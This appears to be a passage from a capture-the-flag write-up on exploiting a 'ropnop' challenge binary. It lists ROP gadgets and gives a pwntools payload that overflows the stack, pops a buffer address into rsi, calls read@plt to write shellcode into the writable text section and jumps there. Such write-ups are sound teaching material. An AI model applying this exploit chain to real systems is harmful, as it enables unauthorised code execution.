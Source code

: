 ```bash
0x000000000000134c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000000134e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001350 : pop r14 ; pop r15 ; ret
0x0000000000001352 : pop r15 ; ret
0x000000000000134b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000000134f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000000012e0 : pop rbp ; ret
0x0000000000001353 : pop rdi ; ret
0x0000000000001351 : pop rsi ; pop r15 ; ret
0x000000000000134d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000000129b : ret
0x000000000000136d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000000136c : sub rsp, 8 ; add rsp, 8 ; ret

Unique gadgets found: 24
```
That are not that many ropgadgets and I was stuck here for a long time, until I revisited the code and remembered, that the `ropnop` function marked the hole text section writeable. So we somehow need to write our code somewhere and then jump to that address. The last step is easy: we only need to append that address to our ropchain. But the first part is a bit tricky, but we can use the libc function `read` to do that. And we are lucky because the main function calls `read` right before we get rip control. That means, that a lot of setup for the function is already done and we only need to alter a few values. In fact we only need to change the `buf` argument, which is stored in the `rsi` register. And to our luck we have got a pop-rsi gadgets in the reachable ones :
```
0x0000000000001351 : pop rsi ; pop r15 ; ret
```
This also pops r15, but this register is not important for the function call.

Now after we have popped the `buf` argument. We now need to call the read function itself. We don't know the address of the read function in libc, but we can use the `read@plt` function, of which we can calculate the address by using the start of the text section. Offset : `0x55fd12ced040 - 0x55fd12cec000 = 0x1040`

```python
...

popRSI = start + 0x0000000000001351
new_buf = start 	# we just use the text section start as the buffer
read_plt = start + 0x1040


p.sendline(b"A" * cyclic_find(b'gaaa') + p64(popRSI) +
						p64(new_buf) + p64(0) + p64(read_plt) + p64(start))

...
```
* `p64(popRSI)` call the gadget
* `p64(new_buf)` gets popped into RSI by the gadget
* `p64(0)` gets popped into R15 (dont care)
* `p64(read_plt)` call the read function
* `p64(start)` jump to the start of text
